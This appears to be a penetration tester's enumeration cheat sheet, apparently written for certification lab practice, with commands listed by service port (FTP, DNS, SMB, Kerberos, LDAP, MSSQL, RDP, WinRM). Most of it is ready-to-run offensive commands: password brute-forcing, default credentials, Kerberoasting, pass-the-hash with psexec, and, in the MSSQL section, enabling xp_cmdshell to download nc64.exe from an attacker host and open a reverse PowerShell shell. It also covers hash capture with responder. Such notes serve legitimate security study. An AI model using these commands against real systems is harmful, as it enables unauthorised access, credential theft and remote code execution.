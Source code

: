 #H1 Enumeration Checklist

<set your variables>
target=
user=
pass=
ip=
domain=

#21 FTP

hydra -l <user list> -P <password list> ftp://$ip

common creds patterns

admin/admin
root/root
password/password
username/username


#53 DNS

dig @$ip version.bind CHAOS TXT
dig axfr @$ip $domain     
dnsenum $domain

#135 RCP

rpcclient -U '' -N $ip
rpcclient -U '$user%$pass' $ip 

> enumdomusers      #check the users on the DC
> queryuser <username>  #query the details of the user
> querydispinfo 

nmblookup -A $ip

＃445 SMB
<Without Pass>

enum4linux -a $ip
impacket-lookupsid '$domain'/'$user'@$domain -no-pass

smbmap  -H 10.10.10.100 --depth 10 -r   #List Shares
smbclient -N -L //[ip]
smbclient //[ip]/[share] -N   #Enumerate Files


<With Pass>
lookupsid.py  $domain/$user:$pass@$domain

lookupsid.py  #domain/$user:$pass@$ip | grep SidTypeUser | cut -d " " -f 2 | cut -d '\' -f 2     #This oneliner will create a file with all the domain users

psexec.py -hashes  :<ntlm hash>    $user@$ip

smbmap -H  hokkaido-aerospace.com -u info -p info --depth 10 -r

smbclient //$ip/C$ -U '$user%$pass' -c 'dir'

netexec smb [host/ip] -u [user] -p [pass] --shares

netexec smb [host/ip] -u guest -p '' --shares

smbclient //[ip]/[share] -U [username] [password]

netexec smb -u [user] -p [pass] -M spider_plus

smbclient.py '[domain]/[user]:[pass]@[ip/host] -k -no-pass - Kerberos auth

manspider.py --threads 256 [IP/CIDR] -u [username] -p [pass] [options]


#88 Kerberoas

nmap --script=krb5-enum-users --script-args='userdb=/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt' -p88 $ip

kerbrute  -dc $ip -domain $domain -users <user file>   #check if the uses are valid

impacket-GetNPUsers $domain/$user -dc-ip $ip   #AS Rep; hashcat module 18200 

impacket-GetUserSPNs -request -dc-ip $ip $domain/$user  #Kerberoasting; Kerberoasting module 13100

kerbrute -domain #domain -dc $ip -users /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt 

kerbrute -domain $domain -dc $ip  -users /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t 100


#389 LDAP

<Without Pass>
ldapsearch -H ldap://$ip -x -b "DC=oscp,DC=exam" 

ldapsearch -x -H ldap://$ip -s base namingcontexts

impacket-lookupsid '$domain/guest'@$domain -no-pass

<With Pass>
lookupsid.py  $domain/$user:$pass@$domain
ldapsearch -x -H ldap://$ip -D '$user' -w '$pass' -s base namingcontexts

bloodhound-python -d $domain -u $user -p $pass -c all -ns $ip
neo4j console                #config file; /usr/share/neo4j/conf
./Bloodhound  --no-sandbox


#1433 MSSQL

impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148 -windows-auth  #Windows login
impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148   #user login

SELECT @@version   #Current MSSQL Version	
SELECT DB_NAME()   #Current Database
SELECT name FROM sys.databases;  #show DBs	
enum_db            #show DBs

select * from   <DB name>.INFORMATION_SCHEMA.TABLES  #show tables  

#cmd command	

EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell ' whoami /priv '

xp_cmdshell "certutil -urlcache -f http://192.168.45.247/nc64.exe nc64.exe"  #If cmd command dose not work, upgrade to poershell
xp_cmdshell "powershell -Command "(New-Object Net.WebClient).DownloadFile(''http://10.10.149.147:1235/nc64.exe'',''C:\Windows\Temp\nc64.exe'')"
xp_cmdshell "/windows/temp/nc64.exe 10.10.149.147 1234 -e powershell"
	
hash capture

xp_dirtree \\192.168.1.210\shared
responder -I tun0   #When the SQL service is running under a machine account, the authentication process returns the machine account hash, which is not crackable (e.g., $DC)

enum_impersonate  #impersonate
EXECUTE AS LOGIN = 'username to impersonate'  #impersonate
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'  #impersonate


<MSSQL Cheetsheet>

https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
https://kwcsec.gitbook.io/the-red-team-handbook/infrastructure/sql/ms-sql/privilege-escalation
https://www.bordergate.co.uk/attacking-mssql/


#3389 RDP

xfreerdp /u:$user /p:$pass /v:$ip /cert:ignore +clipboard

#5985 WINRM

evil-winrm -i $ip -u $user -p $pass
